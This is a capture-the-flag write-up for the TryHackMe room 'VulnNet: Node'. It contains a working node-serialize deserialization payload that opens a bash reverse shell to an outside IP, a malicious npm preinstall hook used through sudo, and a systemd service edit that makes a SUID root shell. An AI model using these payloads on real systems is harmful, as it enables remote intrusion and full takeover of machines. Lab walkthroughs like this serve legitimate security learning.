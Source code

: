 ```yaml
---
title: 'VulnNet: Node'
description: 'NodeJS serialization exploit and privilege escalation through NPM and sudo on vulnnet-job service'
pubDate: 2021-08-24
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/ccbc0836dcca57cbcb1a270de2daabf0.png'
---
```


Inputting broken json (base64 encoded) for the session cookie it gives an error about `serialize.js`:

```
...[snip]...
Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
...[snip]...
```

Googling for `node serialize exploit` brings us to this: https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

## RCE
```json
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec(`bash -c 'bash -i >& /dev/tcp/10.8.200.250/4444 0>&1'`).toString();}()","isLoggedIn":true,"encoding": "utf-8"}
```

## USER
Running `sudo -l`:

```bash
...[snip]...
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Create a `package.json` with:
```json
{"scripts": {"preinstall": "/bin/bash"}}
```

Execute as `serv-manage`:
```bash
sudo -u serv-manage /usr/bin/npm -C . --unsafe-perm i
```

```bash
cat /home/serv-manage/user.txt
```

## ROOT

Running `sudo -l`:
```bash
...[snip]...
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

```bash
find / -name vulnnet-auto.timer 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
```

The service (`vulnnet-auto.timer`) points to a job:
```
...[snip]...
Unit=vulnnet-job.service
...[snip]...
```

Add a command to `/etc/systemd/system/vulnnet-job.service`:
```
ExecStart=/bin/bash -c "cp /bin/bash /tmp/root_bash; chmod u+s /tmp/root_bash"
```

Restart the service:
```bash
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl start vulnnet-auto.timer
```

Execute the copied bash with root privs:
```bash
/tmp/root_bash -p
```
